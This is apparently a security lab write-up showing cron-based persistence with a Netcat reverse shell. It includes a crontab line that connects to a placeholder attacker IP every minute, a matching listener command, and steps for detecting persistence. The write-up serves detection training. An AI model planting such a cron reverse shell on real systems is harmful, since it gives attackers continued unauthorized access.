

## Attack — Persistence (Cron-Based Reverse Shell)

### Objective

The purpose of this attack is to simulate how an attacker maintains access to a compromised system using persistence mechanisms.

This demonstrates post-compromise behavior commonly used to retain control over a system.

---

### Technique

- Scheduled task (cron job)  
- Reverse shell using Netcat  

---

### Step 1 — Create Malicious Cron Job

Edit cron configuration:

crontab -e  

Add the following entry:

* * * * * nc <attacker-ip> 4444 -e /bin/bash  

---

### Step 2 — Start Listener on Attacker Machine

On the attacker system, run:

nc -lvnp 4444  

---

### Step 3 — Observe Persistence Behavior

Once the cron job executes:

- The target system initiates a connection to the attacker  
- A shell session is established  
- Access is maintained even after initial compromise  

Example:

---

### Step 4 — Identify Indicators of Persistence

Indicators include:

- Unauthorized cron job entries  
- Suspicious recurring processes  
- Unexpected outbound connections  

---

### Step 5 — Verify Persistence Mechanism

Check cron jobs:

crontab -l  

Check running processes:

ps aux  

---

### Attack Summary

Attack Type        Method
------------------  ----------------------------
Persistence        Cron-based scheduled task
Access method      Reverse shell (Netcat)
Impact             Continued unauthorized access

---

### Security Risk

Without detection:

- Attackers can maintain long-term access  
- System compromise may go unnoticed  
- Re-entry is possible without re-exploitation  

---

### Outcome

This attack demonstrates how persistence mechanisms allow attackers to retain access after initial compromise.

It emphasizes the importance of:

- Monitoring scheduled tasks  
- Inspecting running processes  
- Implementing detection mechanisms such as FIM and log analysis
